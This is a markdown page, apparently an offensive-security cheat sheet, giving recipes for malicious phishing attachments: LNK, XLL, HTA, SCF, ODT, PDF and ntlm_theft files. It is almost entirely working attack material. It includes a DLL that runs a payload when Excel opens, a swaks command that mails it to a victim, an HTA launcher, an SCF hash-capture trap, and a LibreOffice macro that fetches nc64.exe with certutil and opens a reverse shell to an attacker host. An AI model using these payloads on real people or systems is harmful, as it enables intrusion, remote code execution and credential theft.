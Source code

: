 ```yaml
---
title: "Phishing"
date: 2024-6-26
tags: ["phishing", "email", "xll", "excel", "hta", "shortcut", "Windows", "odt", "libre", "vba", "ntlm_theft"]
---
```


{{< tab set1 tab1 active >}}lnk{{< /tab >}}
{{< tab set1 tab2 >}}xll{{< /tab >}}
{{< tab set1 tab3 >}}hta{{< /tab >}}
{{< tab set1 tab4 >}}scf{{< /tab >}}
{{< tab set1 tab5 >}}odt{{< /tab >}}
{{< tab set1 tab6 >}}pdf{{< /tab >}}
{{< tab set1 tab7 >}}others{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
$obj = New-Object -ComObject WScript.Shell
```

```console
$link = $obj.CreateShortcut("C:\ProgramData\Calculator.lnk")
```

```console
$link.TargetPath = "C:\ProgramData\rev.exe"
```

```console
$link.Save()
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### shell.c

<div>

```console
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void); 

void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("<POWERSHELL_3_BASE64>", 1); // Replace your payload
}

BOOL APIENTRY DllMain( HMODULE hModule,
                    DWORD  ul_reason_for_call,
                    LPVOID lpReserved
                    )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

</div>

#### 1. Compile shell.c in Linux

<div>

```console
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll shell.c -luser32
```

</div>

#### 2. Send email with the malicious xll file

<div>

```console
swaks --to '<VICTIM>@<DOMAIN>' --from 'attacker@<DOMAIN>' --server '<DOMAIN>' --header "This is not a malicious file" --body "This is not a malicious file" --attach '@shell.xll'
```

</div>

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

#### 1. Start a Local SMB Server

<div>

```console
# In our local Linux machine
impacket-smbserver -smb2support share .
```

</div>

#### 2. Create a Malicious hta File in local Linux SMB share

<div>

```console
<html>
    <head>
        <HTA:APPLICATION ID="shell">
        <script language="javascript">
            var c = "<POWERSHELL_3_BASE64>";  
            new ActiveXObject('WScript.Shell').Run(c, 0, true); 
        </script>
    </head>
    <body>
        <script>self.close();</script>
    </body>
</html>
```

</div>

#### 3. Create a shortcut file in target Windows

<div>

```console
# In target Windows machine (powershell)
$url = "file://<LOCAL_IP>/share/shell.hta"
```

```console
$shortcutPath = "C:\ProgramData\shell.url"
```

```console
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
```

```console
Set-Content -Path $shortcutPath -Value $shortcutContent
```

</div>

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

### If any interaction from target to smb share

#### 1. Start Responder

<div>

```console
# In our local Linux machine
sudo responder -I tun0
```

</div>

#### 2. Create a malicious shortcut

<div>

```console
[Shell]
Command=2

IconFile=\\<LOCAL_IP>\icon
```

</div>

#### 3. Upload the malicious shortcut

<div>

```console
# In our local Linux machine
smbclient -N \\\\<TARGET>\\share\\
```

```console
mput evil.scf
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

<div>

```console
+--------------------------------------------------------+
| 1. "Tools" > "Macros" > "Organize Macros" > "Basic..." |
| 2. "Untitled 1" > "Standard" > "New"                   |
| 3. "Paste the code below"                              |
+--------------------------------------------------------+
```

</div>

<br>

<div>

```console
Sub OnLoad
    shell("cmd /c certutil -urlcache -split -f http://<LOCAL_IP>/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd <LOCAL_IP> <LOCAL_PORT>")
End Sub
```

</div>

<br>

<div>

```console
+-----------------------------------------------------------+
| 4. "Tools" > "Organize Macros" > "Basic..." > "Assign..." |
| 5. "Events" > "Open Document" > "OK"                      |
| 6. "SAVE"                                                 |
+-----------------------------------------------------------+
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab6 >}}

<div>

```console
msfconsole -q
```

```console
search badpdf
```

```console
set filename evil.pdf
```

```console
set lhost <LOCAL_IP>
```

```console
exploit
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab7 >}}

<div>

```console
python3 ntlm_theft.py -g all -s <LOCAL_IP> -f test
```

</div>

<small>*Ref: [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)*</small>

{{< /tabcontent >}}

<br>